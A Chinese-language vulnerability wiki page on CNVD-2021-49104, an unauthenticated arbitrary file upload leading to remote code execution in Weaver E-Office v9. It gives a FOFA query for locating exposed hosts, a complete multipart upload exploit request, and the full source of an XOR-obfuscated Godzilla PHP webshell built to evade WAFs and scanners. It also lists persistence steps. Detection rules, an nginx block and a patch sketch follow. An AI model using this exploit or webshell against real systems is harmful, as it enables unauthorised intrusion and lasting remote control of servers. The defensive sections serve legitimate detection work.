

## 漏洞概述

**CNVD-2021-49104** 是泛微 E-Office v9 版本中存在的任意文件上传漏洞，攻击者无需认证即可通过构造恶意上传数据包实现远程代码执行（RCE）。该漏洞源于 `UploadFile.php` 接口在处理 `uploadType=eoffice_logo` 参数时，未对上传文件的类型、内容进行有效校验，导致攻击者可上传任意 PHP 脚本并落地执行。

> **影响版本**：E-Office v9（具体小版本待官方公告确认）  
> **漏洞类型**：任意文件上传 / 远程代码执行  
> **攻击向量**：网络远程、无需认证  
> **利用难度**：低

## 漏洞原理深度解析

### 核心代码缺陷

漏洞触发点位于 `/general/index/UploadFile.php`，关键逻辑如下：

```php
// 伪代码还原
$uploadType = $_GET['uploadType'];
if ($uploadType == 'eoffice_logo') {
    // 缺失：文件扩展名白名单校验
    // 缺失：Content-Type 校验
    // 缺失：文件内容魔数校验
    // 缺失：文件名随机化重命名
    move_uploaded_file($_FILES['Filedata']['tmp_name'], $save_path);
}
```

**关键缺陷点**：

| 缺陷维度 | 说明 |
|----------|------|
| **参数控制** | `uploadType` 可控，设为 `eoffice_logo` 进入宽松上传分支 |
| **文件校验缺失** | 无扩展名黑/白名单、无 MIME 校验、无文件头魔数校验 |
| **存储路径可预测** | 上传后文件固定落地 `/images/logo/logo-eoffice.php`，便于直接访问 |
| **执行权限** | Web 目录可直接解析 PHP，无解析漏洞利用门槛 |

### 攻击面拓扑



## 实战复现全流程

### 资产测绘与目标发现

使用 **FOFA** 语法快速定位泛微 E-Office 公网资产：

```yaml
# FOFA 查询语法示例
app="泛微-EOffice" || title="E-Office" || body="eoffice"
```

> **交叉引用**：[[iot-reconnaissance-information-gathering]] 详细记录了 ZoomEye/Quake/FOFA 多引擎联动资产测绘实战流程；[[cve-2022-30489-wavlink-wn535g3-post-xss-analysis]] 演示了 FOFA 语法配合 Burp Suite 验证的标准化复现范式。

### Burp Suite 构造 Multipart 利用链

#### 标准化请求模板

```http
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: {{target}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary{{random}}
Content-Length: {{calculated}}
Cookie: LOGIN_LANG=cn; PHPSESSID={{valid_session}}

------WebKitFormBoundary{{random}}
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg

{{php_webshell_payload}}
------WebKitFormBoundary{{random}}--
```

> **工具链参考**：[[burpsuite-basics-tutorial]] 系统讲解了 Intruder 四大爆破模式与 Repeater 改包实战技巧；[[xd-security-pentest-basic-stage-notes]] 归档了文件上传绕过（黑白名单、解析漏洞、编辑器漏洞、WAF 绕过）完整知识清单。

#### 关键构造要点

| 字段 | 构造策略 | 绕过目的 |
|------|----------|----------|
| `filename` | `test.php` / `shell.php.jpg` | 绕过前端/中间件扩展名检查 |
| `Content-Type` | `image/jpeg` / `image/png` | 绕过 MIME 类型校验 |
| `boundary` | 随机长字符串 | 符合 RFC 7578 规范，避免解析异常 |
| `Payload` | PHP XOR 加密马（见下文） | 对抗静态特征查杀、流量审计 |

### 哥斯拉 Webshell 载荷设计与落地

#### PHP XOR 对称加密马原理

文章提供的 Payload 采用 **XOR 流加密 + Base64 编码 + Session 状态机** 三层对抗设计：

```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);

function encode($D, $K) {
    for ($i = 0; $i < strlen($D); $i++) {
        $c = $K[$i + 1 & 15];
        $D[$i] = $D[$i] ^ $c;
    }
    return $D;
}

$pass = 'pass';                    // 连接密码
$payloadName = 'payload';
$key = '3c6e0b8a9c15224a';         // 16 字节 XOR 密钥

if (isset($_POST[$pass])) {
    $data = encode(base64_decode($_POST[$pass]), $key);
    
    if (isset($_SESSION[$payloadName])) {
        $payload = encode($_SESSION[$payloadName], $key);
        if (strpos($payload, "getBasicsInfo") === false) {
            $payload = encode($payload, $key);
        }
        eval($payload);                      // 核心执行点
        echo substr(md5($pass . $key), 0, 16);
        echo base64_encode(encode(@run($data), $key));
        echo substr(md5($pass . $key), 16);
    } else {
        if (strpos($data, "getBasicsInfo") !== false) {
            $_SESSION[$payloadName] = encode($data, $key);  // 首次交互植入 Session
        }
    }
}
```

**核心对抗特性**：

| 层次 | 技术手段 | 对抗目标 |
|------|----------|----------|
| **传输层** | Base64 编码 + XOR 加密 | WAF 正则特征匹配、流量审计关键词拦截 |
| **执行层** | `eval()` 动态执行 + Session 状态机 | 静态扫描引擎、文件落地查杀 |
| **通信层** | 密文响应 + MD5 校验标识 | 中间人篡改、蜜罐识别、自动化扫探器指纹 |

> **交叉引用**：[[php-webshell-obfuscation-av-evasion]] 深度解析了 C++ 两阶段混淆器（算术表达式拆分 + XOR 特征函数分离）实现 PHP Webshell 多态输出；[[php-webshell-fundamentals-chopper-analysis]] 系统梳理了一句话木马核心原理、蚁剑/菜刀客户端通信协议与 Content-Type 伪造绕过实战。

#### 哥斯拉客户端配置

1. **新建 Shell** → 类型：PHP → 密钥：`pass`（需与服务端 `$pass` 一致）
2. **编码器**：选择 `PHP_XOR_BASE64`（内置对应上述算法）
3. **连接测试**：目标 URL `http://{{target}}/images/logo/logo-eoffice.php`

成功上线后可执行系统命令、文件管理、数据库操作、虚拟终端等完整后渗透功能。

### 验证与后渗透利用链

```bash
# 1. 验证文件落地
curl -s "http://target/images/logo/logo-eoffice.php"

# 2. 哥斯拉交互式命令执行
# UI 操作：右键 → 虚拟终端 → whoami / id / uname -a

# 3. 权限维持扩展
# - 计划任务植入
# - SSH 公钥写入
# - 系统服务注册
# - WMI 事件订阅
```

> **实战延伸**：[[listed-company-penetration-test-case-study]] 完整复现了「弱口令文件上传 → 哥斯拉上线 MSF → 会话传递 CS → Socks 代理横向 → MSSQL xp_cmdshell → IoT/OT 设备失陷」全链路；[[shiro-internal-penetration-case-study]] 记录了 Shiro RCE 初始访问、火绒免杀上线 CS、NTLM 导出、FTP 大规模横向移动及威胁溯源全过程。

## 检测与防御指引

### 漏洞检测规则

**Suricata / Snort 规则示例**：

```suricata
alert http any any -> $HOME_NET any (
    msg:"WEB-APP CNVD-2021-49104 泛微 E-Office 任意文件上传尝试";
    flow:established,to_server;
    http.uri; content:"/general/index/UploadFile.php"; nocase;
    http.uri; content:"uploadType=eoffice_logo"; nocase;
    http.header; content:"multipart/form-data"; nocase;
    http.client_body; pcre:"/filename=[\"']?[^\"']*\.php[\"']?/i";
    classtype:web-application-attack;
    sid:202149104;
    rev:1;
)
```

**日志审计关键字**：

| 日志源 | 关键字段 | 异常特征 |
|--------|----------|----------|
| Nginx/Apache Access | `POST /general/index/UploadFile.php` + `uploadType=eoffice_logo` | 非业务时间段、高频访问、异常 User-Agent |
| PHP Error Log | `move_uploaded_file` + `logo-eoffice.php` | 上传成功后的脚本执行报错 |
| WAF/IDS | `multipart/form-data` + `filename=.php` + `Content-Type:image/` | 经典绕过组合 |

### 临时缓解措施

```nginx
# Nginx 临时阻断规则
location /general/index/UploadFile.php {
    if ($arg_uploadType = "eoffice_logo") {
        return 403;
    }
    # 或限制仅允许内网 IP
    allow 10.0.0.0/8;
    allow 172.16.0.0/12;
    allow 192.168.0.0/16;
    deny all;
}
```

```php
// 代码层补丁建议（伪代码）
$allowed_types = ['jpg','jpeg','png','gif','bmp'];
$ext = strtolower(pathinfo($_FILES['Filedata']['name'], PATHINFO_EXTENSION));
if (!in_array($ext, $allowed_types)) {
    die('文件类型不允许');
}
// 二次校验：文件头魔数
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mime = finfo_file($finfo, $_FILES['Filedata']['tmp_name']);
if (!in_array($mime, ['image/jpeg','image/png','image/gif','image/bmp'])) {
    die('文件内容不合法');
}
// 重命名存储
$new_name = md5(uniqid(microtime(true), true)) . '.' . $ext;
move_uploaded_file($_FILES['Filedata']['tmp_name'], $save_path . $new_name);
```

### 官方修复路径

1. 访问泛微官网下载最新安全补丁包
2. 升级至修复版本（建议 ≥ v9.0 修复版）
3. 升级前务必备份数据库与关键配置文件
4. 升级后执行全量漏洞扫描验证修复效果

## 交叉引用知识图谱

| 维度 | 关联页面 | 关联说明 |
|------|----------|----------|
| **工具实战** | [[burpsuite-basics-tutorial]] | Intruder/Repeater 构造 Multipart 攻击包核心技巧 |
| **资产测绘** | [[iot-reconnaissance-information-gathering]] | FOFA/ZoomEye/Quake 多引擎联动资产发现实战 |
| **Webshell 对抗** | [[php-webshell-obfuscation-av-evasion]] | C++ 两阶段混淆器实现 PHP 多态 Webshell 生成 |
| **Webshell 基础** | [[php-webshell-fundamentals-chopper-analysis]] | 一句话木马原理、蚁剑/菜刀协议、Content-Type 绕过 |
| **实战案例** | [[listed-company-penetration-test-case-study]] | 文件上传 → 哥斯拉 → CS 横向移动完整攻击链 |
| **实战案例** | [[shiro-internal-penetration-case-study]] | 初始访问 → 免杀上线 → 凭证导出 → 横向移动 → 威胁溯源 |
| **教学笔记** | [[xd-security-pentest-basic-stage-notes]] | 文件上传绕过（黑白名单/解析漏洞/编辑器/WAF）知识清单 |
| **教学笔记** | [[xd-security-waf-bypass-techniques-day46-49]] | 安全狗/宝塔/阿里云 WAF 文件上传绕过实战策略 |

## 时间线与版本记录

| 日期 | 事件 | 备注 |
|------|------|------|
| 2021-09 | CNVD 收录 CNVD-2021-49104 | 官方编号分配 |
| 2021-09 | 火线 Zone 首发复现文章 | 本页面主要资料来源 |
| 2021-09 | 泛微官方发布安全公告 | 建议用户尽快升级修复 |
| 2021-10 | 多款安全产品发布检测规则 | NSFOCUS、奇安信、深信服等 |

## 免责声明

> 本页面仅供安全研究、漏洞分析、防御部署等合法授权场景使用。未经授权对目标系统进行漏洞扫描、利用、数据窃取等行为均违反《中华人民共和国网络安全法》等法律法规，使用者需自行承担全部法律责任。页面作者不承担任何因误用、滥用导致的直接或间接损失。

## 来源

- [0x6270安全团队-202203-202304_54](../sources/0x6270安全团队-202203-202304_54.md)
